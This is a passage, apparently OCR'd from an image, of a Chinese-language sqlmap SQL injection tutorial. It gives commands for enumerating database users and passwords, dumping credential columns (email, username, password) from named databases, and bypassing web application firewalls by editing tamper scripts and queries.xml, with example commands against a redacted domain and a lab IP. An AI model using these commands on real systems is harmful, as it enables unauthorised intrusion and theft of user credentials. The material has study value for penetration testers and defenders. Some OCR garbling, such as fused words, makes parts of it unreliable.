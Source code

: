 3.web数据库使用账户--current-user

4.列出sqlserver所有用户 --users

5.数据库账户与密码 --passwords

6.指定库名列出所有表  -D database --tables

-D：指定数据库名称

7.指定库名表名列出所有字段 -D antian365-T admin --columns

-T：指定要列出字段的表

8.指定库名表名字段dump出指定字段

-D secbang_com -T admin -C id,password ,username --dump

-D antian365 -T userb -C"email,Username,userpassword" --dump

 可加双引号，也可不加双引号。

9.导出多少条数据

-D tourdata -T userb -C"email,Username,userpassword" --start 1 --stop 10 --dump 

参数：

--start：指定开始的行

--stop：指定结束的行

此条命令的含义为：导出数据库tourdata中的表userb中的字段(email,Username,userpassword)中的第1到第10行的数据内容。

## 1.5 SQLMAP实用技巧

### 1. mysql的注释方法进行绕过WAF进行SQL注入

（1）修改C:\Python27\sqlmap\tamper\halfversionedmorekeywords.py

return match.group().replace(word,"/*!0%s" % word) 为：

return match.group().replace(word,"/*!50000%s*/" % word)

（2）修改C:\Python27\sqlmap\xml\queries.xml

<cast query="CAST(%s ASCHAR)"/>为：

<castquery="convert(%s,CHAR)"/>

（3）使用sqlmap进行注入测试

sqlmap.py -u"http://**.com/detail.php? id=16" –tamper "halfversionedmorekeywords.py"

其它绕过waf脚本方法：

sqlmap.py-u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tampertamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

（4）tamper目录下文件具体含义：

> space2comment.py用/**/代替空格
>
> apostrophemask.py用utf8代替引号
>
> equaltolike.pylike代替等号
>
> space2dash.py　绕过过滤‘=’ 替换空格字符（”），（’–‘）后跟一个破折号注释，一个随机字符串和一个新行（’n’）
>
> greatest.py　绕过过滤’>’ ,用GREATEST替换大于号。
>
> space2hash.py空格替换为#号,随机字符串以及换行符
>
> apostrophenullencode.py绕过过滤双引号，替换字符和双引号。
>